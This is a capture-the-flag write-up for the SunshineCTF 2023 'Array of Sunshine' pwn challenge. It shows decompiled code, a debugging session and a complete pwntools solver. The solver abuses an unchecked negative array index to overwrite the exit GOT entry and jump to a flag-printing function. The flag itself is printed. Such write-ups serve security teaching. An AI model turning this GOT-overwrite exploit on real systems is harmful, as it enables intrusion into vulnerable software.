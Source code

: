 # Array of Sunshine

## Descriptio

> Sunshine on my shoulders makes me happy...
> Haiku to Sunshine - ChatGPT
> ☀️ A sunbeam kisses 🍊
>
> Golden warmth in every slice 🌞
>
> Nature's sweet embrace 🌼
>
> Server info
> nc chal.2023.sunshinectf.games 23003
>
> Attachment: sunshine

## Flag

sun{a_ray_of_sunshine_bouncing_around}

## Solution

```console
root@kali:~/ctf/SunshineCTF_2023/pwn/Array_of_Sunshine# checksec
[*] '/root/ctf/SunshineCTF_2023/pwn/Array_of_Sunshine/sunshine'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

root@kali:~/ctf/SunshineCTF_2023/pwn/Array_of_Sunshine# readelf -s sunshine
(snip)
    38: 000000000040128f    61 FUNC    GLOBAL DEFAULT   14 win
(snip)
```

`win` function decompiled with Ghidra:

```c
void win(void)

{
  long lVar1;
  long in_FS_OFFSET;

  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  system("cat flag.txt");
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

`win` function is defined but not called anywhere.
I guess it's expected ret2win in this challenge.

`basket` function decompiled with Ghidra:

```c
void basket(void)

{
  long in_FS_OFFSET;
  int local_34;
  undefined *local_30;
  undefined *local_28;
  long local_20;
  undefined8 local_18;
  long local_10;

  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("\nWhich fruit would you like to eat [0-3] >>> ");
  __isoc99_scanf(&DAT_00402e46,&local_34);
  printf("Replace it with a new fruit.\n",*(undefined8 *)(fruits + (long)local_34 * 8));
  printf("Type of new fruit >>>");
  __isoc99_scanf(&DAT_00402e7d,fruits + (long)local_34 * 8);
  local_30 = &DAT_00404020;
  local_28 = &DAT_00404038;
  local_20 = _DAT_00404020;
  local_18 = _DAT_00404038;
  if ((printf_sym == _DAT_00404020) && (printf_sym == _DAT_00404020)) {
    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
      __stack_chk_fail();
    }
    return;
  }
                    /* WARNING: Subroutine does not return */
  exit(-1);
}
```

User Input:

- (1) input numbers after `Which fruit would you like to eat [0-3] >>>` is output
- (2) input 24-character string after `Type of new fruit >>>` is output

Behavior:

- A `fruits` is defined in Heap Memory and initialized as `{"Oranges", "Apples", "Pears", "Bananas"}`
- `fruits + (1) = (2)`
- input value (1) is not verified so it's possible to input negative value e.g. `-1`

```gdb
gdb-peda$ b *basket+183
Breakpoint 1 at 0x401609

gdb-peda$ r
Starting program: /root/ctf/SunshineCTF_2023/pwn/Array_of_Sunshine/sunshine

(snip)

Which fruit would you like to eat [0-3] >>> 0
Replace it with a new fruit.
Type of new fruit >>>PWNAPPLE

(snip)

gdb-peda$ find PWNAPPLE
Searching for 'PWNAPPLE' in: None ranges
Found 1 results, display max 1 items:
sunshine : 0x405080 ("PWNAPPLE")
gdb-peda$ vmmap
Start              End                Perm      Name
0x00400000         0x00401000         r--p      /root/ctf/SunshineCTF_2023/pwn/Array_of_Sunshine/sunshine
0x00401000         0x00402000         r-xp      /root/ctf/SunshineCTF_2023/pwn/Array_of_Sunshine/sunshine
0x00402000         0x00404000         r--p      /root/ctf/SunshineCTF_2023/pwn/Array_of_Sunshine/sunshine
0x00404000         0x00405000         r--p      /root/ctf/SunshineCTF_2023/pwn/Array_of_Sunshine/sunshine
0x00405000         0x00406000         rw-p      /root/ctf/SunshineCTF_2023/pwn/Array_of_Sunshine/sunshine
(snip)
gdb-peda$ tele 0x00405000 50
(snip)
0064| 0x405040 --> 0x4010b6 (<exit@plt+6>:      push   0x8)
(snip)
0128| 0x405080 ("PWNAPPLE")
0136| 0x405088 --> 0x402000 --> 0x20001
0144| 0x405090 --> 0x40203a --> 0x4200007372616550 ('Pears')
0152| 0x405098 --> 0x402041 --> 0x73616e616e6142 ('Bananas')
(snip)
```

`exit(-1)` is called at the end of the `backet` function, so input `exit - fruits` to (1) due to overwrite the exit GOT and input `win` address to (2).
then it's enable to jump to the `win` function.

solver.py

```python
from pwn import *

elf = ELF("sunshine")

win = elf.sym["win"]
fruits = elf.sym["fruits"]
exit = elf.got["exit"]

log.debug(f"win: {hex(win)}")
log.debug(f"fruits: {hex(fruits)}")


def conn() -> pwnlib.tubes:
    if args.REMOTE:
        io = remote("chal.2023.sunshinectf.games", 23003)
    elif args.GDB:
        gdbscript = """
        b *basket+178
        c"""
        io = gdb.debug([elf.path], gdbscript=gdbscript)
    else:
        io = elf.process()

    return io


def main():
    io = conn()

    io.sendlineafter(
        b"Which fruit would you like to eat [0-3] >>>",
        str(((elf.got["exit"] - elf.sym["fruits"]) // 8)).encode(),
    )
    io.sendlineafter(b"Type of new fruit >>>", p64(win))
    io.interactive("")


if __name__ == "__main__":
    main()
```

```console
root@kali:~/ctf/SunshineCTF_2023/pwn/Array_of_Sunshine# python3 solver.py REMOTE
[*] '/root/ctf/SunshineCTF_2023/pwn/Array_of_Sunshine/sunshine'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to chal.2023.sunshinectf.games on port 23003: Done
[*] Switching to interactive mode
sun{a_ray_of_sunshine_bouncing_around}

Which fruit would you like to eat [0-3] >>>
[*] Closed connection to chal.2023.sunshinectf.games port 23003
```

